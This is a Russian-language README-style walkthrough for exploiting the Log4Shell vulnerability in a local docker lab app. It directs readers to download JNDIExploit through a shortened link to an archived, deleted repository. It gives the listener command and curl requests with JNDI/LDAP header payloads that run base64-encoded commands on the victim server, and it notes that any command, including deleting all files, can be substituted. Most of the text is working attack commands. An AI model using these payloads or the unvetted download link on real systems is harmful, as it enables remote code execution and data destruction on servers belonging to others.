# log4shell
новая уязвимость log4shell

Скачивание эксплоита:

Переходим по ссылке:
https://bit.ly/3E4kxuk

И ждём скачивание файла(если ссылка не открылась,используйте vpn.
Это ссылка на сайт,делающий слепки других сайтов,который успел сохранить ссылку на архив старого репозитория гит хаба (его удалили)

Установка эксплоита:
Переходим в папку загрузок и распаковываем архив:

unzip JNDIExploit.v1.2.zip

Далее вводим эту команду для прослушки 1389 и 8888 портов:

java -jar JNDIExploit-1.2-SNAPSHOT.jar -i LOCAL_IP -p 8888 
Где LOCAL_IP - IP-адрес атакующего.


Атака на сервер:
Итак, у нас есть уязвимый сервер и эксплоит для него. Теперь вводим эту команду:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://LOCAL_IP:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
Где 127.0.0.1:8080 - IP жертвы (сервера), а LOCAL_IP - IP-адрес атакующего.

Эта команда отправляет запрос на сервер для удалённого выполнения команды в виде base64. Где "dG91Y2ggL3RtcC9wd25lZAo=" - и есть команда. При расшифровке можно понять, что она делает:


Команда создаёт файл по пути /tmp с названием pwned. После её выполнения в терминале отобразится текст "Hello, world!".


Чтобы проверить, выполнена ли команда на сервере, проверяем на нём файлы:

docker exec vulnerable-app ls /tmp
Должен отобразится файл pwned.


Вместо команды, показанной в примере, можно выполнить любую другую. Например перезапуск сервера, запуск другого эксплоита, удаление всех файлов и тд. 

Предположим у нас стоит задача теперь удалить файл pwned, который мы создали. Для этого будет такая команда:

cd /tmp && rm pwned 
Чтобы её запустить на атакуемом сервере, нужно открыть какой-нибудь base64 декодер и зашифровать её:


Копируем результат и вставляем в эту команду:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://LOCAL_IP:1389/Basic/Command/Base64/Base64_code}'
Где 

127.0.0.1:8080 - IP жертвы (сервера), 

LOCAL_IP - IP-адрес атакующего, 

а Base64_code - скопированный раннее результат (сюда и нужно вставить результат).



У меня получилась такая команда:

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://10.0.2.15:1389/Basic/Command/Base64/Y2QgL3RtcCAmJiBybSBwd25lZCA=}'
    

